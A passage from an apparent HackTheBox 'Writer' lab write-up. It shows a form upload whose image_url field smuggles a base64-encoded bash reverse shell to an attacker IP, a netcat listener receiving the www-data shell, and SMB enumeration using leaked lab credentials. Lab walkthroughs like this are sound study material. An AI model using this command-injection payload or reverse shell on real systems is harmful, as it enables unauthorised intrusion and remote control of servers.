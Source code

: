 ```console

-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/kali.jpg;echo 'YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE0LzEyMzQgMD4mMSIK' | base64 -d | sh;
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="content"

im qwe yes
-----------------------------118533453010020168263738670579--
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 35234
bash: cannot set terminal process group (1032): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@writer:/$ uname -a
uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@writer:/$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:a5:ab brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.101/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:a5ab/64 scope global dynamic mngtmpaddr
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:a5ab/64 scope link
       valid_lft forever preferred_lft forever
```

### SMB & SSRF

The leaked password of db connection can login to samba service: `kyle:ToughPasswordToCrack`

```console
└─╼$ smbmap -u kyle -p ToughPasswordToCrack -H 10.10.11.101

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

```